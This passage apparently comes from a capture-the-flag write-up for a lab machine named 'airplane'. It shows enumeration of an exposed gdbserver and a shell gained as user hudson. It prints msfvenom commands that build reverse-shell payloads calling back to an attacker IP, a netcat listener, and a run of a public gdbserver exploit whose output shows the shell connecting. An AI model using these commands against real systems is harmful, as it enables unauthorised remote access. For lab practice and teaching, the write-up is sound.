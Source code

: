 When there wasn't a proc entry for the PID, the webserver responded with `Page not found`, this helped me filter the output using grep's `-v` flag:
```bash
kali@kali:~/ctf/airplane$ grep -v "Page not found" output
  [...]
  pid: 527 service: /usr/bin/gdbserver0.0.0.0:6048airplane
  [...]
```

The output showed that it was a GDB server.

## Shell as hudson

While researching exploitable ways to use the GDB server, I found two interesting possibilities and wanted to try them both:

### Python Exploit

The first exploit I found was an <a href="https://www.exploit-db.com/exploits/50539">Exploit-DB</a> entry and a Python script. Before executing the exploit, I needed to create a reverse shell executable and start a Netcat listener: 
```bash
kali@kali:~/ctf/airplane$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=[attacker-ip] LPORT=4444 PrependFork=true -o rev.bin

kali@kali:~/ctf/airplane$ python3 exploit.py airplane.thm:6048 rev.bin
  [+] Connected to target. Preparing exploit
  [+] Found x64 arch
  [+] Sending payload
  [*] Pwned!! Check your listener

kali@kali:~/ctf/airplane$ nc -nlvp 4444  
  listening on [any] 4444 ...
  connect to [attacker-ip] from (UNKNOWN) [10.10.104.147] 49048
  id
  uid=1001(hudson) gid=1001(hudson) groups=1001(hudson)
```

### GDB binary

The second method I discovered in a <a href="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-remote-gdbserver.html?highlight=gdbserver#pentesting-remote-gdbserver">Hacktricks</a> blog entry was by using the GBD executable. GDB has the ability to run a file on a remote GDB server, which can be exploited by uploading and executing a reverse shell. I started again with a Netcat listener and created a payload. 
```bash
$ nc -lnvp 4444

$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.21.63.26 LPORT=4444 PrependFork=true -f elf -o binary.elf

$ chmod +x binary.elf  
```
